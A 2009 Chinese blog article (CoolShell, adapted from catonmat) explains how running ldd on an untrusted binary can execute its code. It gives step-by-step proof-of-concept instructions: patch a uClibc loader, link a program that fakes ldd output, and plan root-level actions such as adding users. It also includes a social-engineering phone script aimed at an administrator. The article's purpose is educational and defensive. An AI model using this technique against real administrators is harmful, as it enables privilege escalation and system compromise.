 .. _articles1626:

ldd 的一个安全问题
==================

2009年10月28日 `陈皓 <http://coolshell.cn/articles/author/haoel>`__

我们知道“ldd”这个命令主要是被程序员或是管理员用来查看可执行文件所依赖的动态链接库的。是的，这就是这个命令的用处。可是，这个命令比你想像的要危险得多，也许很多黑客通过ldd的安全问题来攻击你的服务器。其实，ldd的安全问题存在很长的时间了，但居然没有被官方文档所记录来下，这听上去更加难以理解了。怎么？是不是听起来有点不可思议？下面，让我为你细细道来。

首先，我们先来了解一下，我们怎么来使用ldd的，请你看一下下面的几个命令：

::

    (1) $ ldd /bin/grep
            linux-gate.so.1 =>  (0xffffe000)
            libc.so.6 => /lib/libc.so.6 (0xb7eca000)
            /lib/ld-linux.so.2 (0xb801e000)

    (2) $ LD_TRACE_LOADED_OBJECTS=1 /bin/grep
            linux-gate.so.1 =>  (0xffffe000)
            libc.so.6 => /lib/libc.so.6 (0xb7e30000)
            /lib/ld-linux.so.2 (0xb7f84000)

    (3) $ LD_TRACE_LOADED_OBJECTS=1 /lib/ld-linux.so.2 /bin/grep
            linux-gate.so.1 =>  (0xffffe000)
            libc.so.6 => /lib/libc.so.6 (0xb7f7c000)
            /lib/ld-linux.so.2 (0xb80d0000)

第(1)个命令，我们运行了 \`ldd\` 于
\`/bin/grep\`。我们可以看到命令的输出是我们想要的，那就是 \`/bin/grep\`
所依赖的动态链接库。

第(2)个命令设置了一个叫
LD\_TRACE\_LOADED\_OBJECTS 的环境变量，然后就好像在运行命令
\`/bin/grep\` (但其实并不是)。 其运行结果和ldd的输出是一样的！

第(3)个命令也是设置了环境变量 LD\_TRACE\_LOADED\_OBJECTS
，然后调用了动态链接库 \`ld-linux.so\` 并把 \`/bin/grep\`
作为参数传给它。我们发现，其输出结果还是和前面两个一样的。

具体发生了什么？
^^^^^^^^^^^^^^^^

对于第二个和第三个命令来说，好像是对 \`ldd\`
的一个包装或是一个隐式调用。对于第二个和第三个命令来说， \`/bin/grep\`
这个命令就根本没有被运行。这是一个GNU动态载入器的怪异的特性。如果其注意到环境变量LD\_TRACE\_LOADED\_OBJECTS
被设置了，那么它就不会去执行那个可运行的程序，而去输出这个可执行程序所依赖的动态链接库
（在BSD 系统上的\`ldd\` 是一个C 程序)。

如果你使用的是Linux，那么，你可以去看看 \`ldd\` 程序，你会发现这是一个
bash
的脚本。如果你仔细查看这个脚本的源码，你会发现，第二个命令和第三个命令的差别就在于
\`ld-linux.so\`
装载器是否可以被\`ldd\`所装载，如果不能，那就是第二个命令，如果而的话，那就是第三个命令。

所以，如果我们可以让\`ld-linux.so\`
装载器失效的话，或是让别的装载器来取代这个系统默认的动态链接库的话，那么我们就可以让
\`ldd\`来载入并运行我们想要程序了——使用不同的载装器并且不处理LD\_TRACE\_LOADED\_OBJECTS
环境变量，而是直接运行程序。

例如，你可以创建一个具有恶意的程序，如： ~/app/bin/exec
并且使用他自己的装载器 ~/app/lib/loader.so。如果某人（比如超级用户root）
运行了 \`ldd /home/you/app/bin/exec\`
，于是，他就玩完了。因为，那并不会列出所依赖的动态链接库，而是，直接执行你的那个恶意程序，这相当于，那个用户给了你他的授权。

编译一个新的装载器
^^^^^^^^^^^^^^^^^^

下载 \ `uClibc <http://www.uclibc.org/>`__
C库。这是一个相当漂亮的代码，并且可以非常容易地修改一下源代码，使其忽略LD\_TRACE\_LOADED\_OBJECTS
检查。

::

    $ mkdir app
    $ cd app
    app$ wget 'http://www.uclibc.org/downloads/uClibc-0.9.30.1.tar.bz2'

解压这个包，并执行 \`make
menuconfig\`，选项你的平台架构（比如：i386），剩下的事情保持不变。

::

    $ bunzip2 < uClibc-0.9.30.1.tar.bz2 | tar -vx
    $ rm -rf uClibc-0.9.30.1.tar.bz2
    $ cd uClibc-0.9.30.1
    $ make menuconfig

| 编辑 .config 并设置目标安装目录：到 \`/home/you/app/uclibc\`，
|  把下面两行

::

    RUNTIME_PREFIX="/usr/$(TARGET_ARCH)-linux-uclibc/"
    DEVEL_PREFIX="/usr/$(TARGET_ARCH)-linux-uclibc/usr/"

改成

::

    RUNTIME_PREFIX="/home/you/app/uclibc/"
    DEVEL_PREFIX="/home/you/app/uclibc/usr/"

现在你需要改动一下其源代码，让其忽略LD\_TRACE\_LOADED\_OBJECTS
环境变量的检查。 下面是个这修改的diff，你需要修改的是
\`ldso/ldso/ldso.c\`
文件。你可把下面的这个diff存成一个叫file的文件，然后运行这个命令：\`patch
-p0 <
file\`。如果你不这样做的话，那么，我们的黑客程序就无法工作，而我们的这个装载器还是会认为
\`ldd\` 想列出动态链接库的文件列表。

::

    --- ldso/ldso/ldso-orig.c       2009-10-25 00:27:12.000000000 +0300
    +++ ldso/ldso/ldso.c    2009-10-25 00:27:22.000000000 +0300
    @@ -404,9 +404,11 @@
             }  #endif
    +    /*
             if (_dl_getenv("LD_TRACE_LOADED_OBJECTS", envp) != NULL) {
                     trace_loaded_objects++;
             }
    +    */
       #ifndef __LDSO_LDD_SUPPORT__
             if (trace_loaded_objects) {

下面让我们来编译并安装它。

::

    $ make -j 4
    $ make install

于是，我们的 uClibc 装载器就被安装了，并且libc 库指向了
/home/you/app/uclibc.
就这么简单，现在，我们需要做的就是把我们的uClibc的装载器
(app/lib/ld-uClibc.so.0)变成默认的。

小试 牛刀
^^^^^^^^^

首先，先让我们来创建一个测试程序，这人程序也就是输出些自己的东西，这样可以让我们看到我们的程序被执行了。我们把这个程序放在
\`app/bin/\`下，叫“myapp.c”，下面是源代码

::

    #include 
    #include 

    int main() {
      if (getenv("LD_TRACE_LOADED_OBJECTS")) {
        printf("All your things are belong to me.\n");
      }
      else {
        printf("Nothing.\n");
      }
      return 0;
    }

这是一个很简单的代码了，这段代码主要检查一下环境变量LD\_TRACE\_LOADED\_OBJECTS
是否被设置了，如果是，那么恶意程序执行，如果没有，那么程序什么也不发生。

下面是编译程序的命令，，大家可以看到，我们静态链接了一些函数库。我们并不想让LD\_LIBRARY\_PATH这个变量来发挥作用。

::

    $ L=/home/you/app/uclibc
    $ gcc -Wl,--dynamic-linker,$L/lib/ld-uClibc.so.0 \
        -Wl,-rpath-link,$L/lib \
        -nostdlib \
        myapp.c -o myapp \
        $L/usr/lib/crt*.o \
        -L$L/usr/lib/ \
        -lc

下面是GCC的各个参数的解释：

-  **-Wl,–dynamic-linker,$L/lib/ld-uClibc.so.0** — 指定一个新的装载器。
-  **-Wl,-rpath-link,$L/lib** —
   指定一个首要的动态装载器所在的目录，这个目录用于查找动态库。
-  **-nostdlib** — 不使用系统标准库。
-  **myapp.c -o myapp** — 编译myapp.c 成可执行文件 myapp,
-  **$L/usr/lib/crt\*.o** — 静态链接runtime 代码
-  **-L$L/usr/lib/** — libc 的目录（静态链接）
-  **-lc** — C 库

现在让我们来运行一下我们的 \`myapp\` （没有ldd，一切正常）

::

    app/bin$ ./myapp
    Nothing.

LD\_TRACE\_LOADED\_OBJECTS 没有设置，所以输出 “Nothing” 。

现在，让我们来使用 \`ldd\`
来看看这个程序的最大的影响力，让我们以root身份来干这个事。

::

    $ su
    Password:
    # ldd ./myapp
    All your things are belong to me.

哈哈，我们可以看到，ldd触发了我们的恶意代码。于是，我们偷了整个系统！

邪恶的程序
^^^^^^^^^^

下面这个例子更为实际一些，如果没有\`ldd\` ，那程序程序会报错 “error
while loading shared libraries” ，这个错误信息会引诱你去去使用 \`ldd\`
去做检查，如果你是root的话，那么就整个系统就玩完了。而当你可以了 \`ldd\`
后，它会在干完坏事后，模仿正确的\`ldd\`的输出，告诉你 \`libat.so.0\`
不存在。

下面的代码仅仅是向你展示了一下整个想法，代码还需加工和改善。

::

    #include 
    #include 
    #include 
    #include 

    /*
    This example pretends to have a fictitious library 'libat.so.0' missing.
    When someone with root permissions runs `ldd this_program`, it does
    something nasty in malicious() function.

    I haven't implemented anything malicious but have written down some ideas
    of what could be done.

    This is, of course, a joke program. To make it look more real, you'd have
    to bump its size, add some more dependencies, simulate trying to open the
    missing library, detect if ran under debugger or strace and do absolutely
    nothing suspicious, etc.
    */

    void pretend_as_ldd()
    {
        printf("\tlinux-gate.so.1 =>  (0xffffe000)\n");
        printf("\tlibat.so.0 => not found\n");
        printf("\tlibc.so.6 => /lib/libc.so.6 (0xb7ec3000)\n");
        printf("\t/lib/ld-linux.so.2 (0xb8017000)\n");
    }

    void malicious()
    {
    {
        if (geteuid() == 0) {
            /* we are root ... */
            printf("poof, all your box are belong to us\n");

            /* silently add a new user to /etc/passwd, */
            /* or create a suid=0 program that you can later execute, */
            /* or do something really nasty */
        }
    }

    int main(int argc, char **argv)
    {
        if (getenv("LD_TRACE_LOADED_OBJECTS")) {
            malicious();
            pretend_as_ldd();
            return 0;
        }

        printf("%s: error while loading shared libraries: libat.so.0: "
               "cannot open shared object file: No such file or directory\n",
               argv[0]);
        return 127;
    }

 

邪恶的电话
^^^^^^^^^^

事实上来说，上面的那段程序可能的影响更具破坏性，因为大多数的系统管理员可能并不知道不能使用
\`ldd\`
去测试那些不熟悉的执行文件。下面是一段很可能会发现的对话，让我们看看我们的程序是如何更快地获得系统管理员的权限的。

系统管理员的电话狂响……

系统管理员： “同志你好，我是系统管理员，有什么可以帮你的？”

黑客：“管理员同志你好。我有一个程序不能运行，总是报错，错误好像是说一个系统动态链接库有问题，你能不能帮我看看？”

系统管理员：“没问题，你的那个程序在哪里？”

黑客： “在我的home目录下，/home/hchen/app/bin/myapp”。

系统管理员：“ OK，等一会儿”，黑客在电话这头可以听到一些键盘的敲击声。

系统管理员：“好像是动态链接库的问题，你能告诉我你的程序具体需要什么样的动态链接库吗？”

黑客说: “谢谢，应该没有别的嘛。”

系统管理员：“嗯，查到了，说是没有了
\`libat.so.0\`这是你自己的动态链接库吗？”

黑客说：“哦，好像是的，你等一下，我看看……”
黑客在那头露出了邪恶的笑，并且，讯速地输入了下面的命令：

| \`mv ~/.hidden/working\_app ~/app/bin/myapp\`
|  \`mv ~/.hidden/libat.so.o ~/app/bin/\`

黑客说：“哦，对了，的确是我的不对，我忘了把这个链接库拷过来了，现在应该可以了，谢谢你啊，真是不好意思，麻烦你了”

系统管理员：
“没事就行了，下次注意啊！”（然后系统管理心里暗骂，TMD，又一个白痴用户！……）

**教训一：千万不要使用 \`ldd\` 去测试你不知道的文件！
 教训二：千万不要相信陌生人！**

文章：\ `来源 <http://www.catonmat.net/blog/ldd-arbitrary-code-execution/>`__\ （以上文章并非完全翻译，我做过一些修改，所以，如果你要转载，请注明作者和出处）

.. |image6| image:: /coolshell/static/20140922112228564000.jpg

.. note::
    原文地址: http://coolshell.cn/articles/1626.html 
    作者: 陈皓 

    编辑: 木书架 http://www.me115.com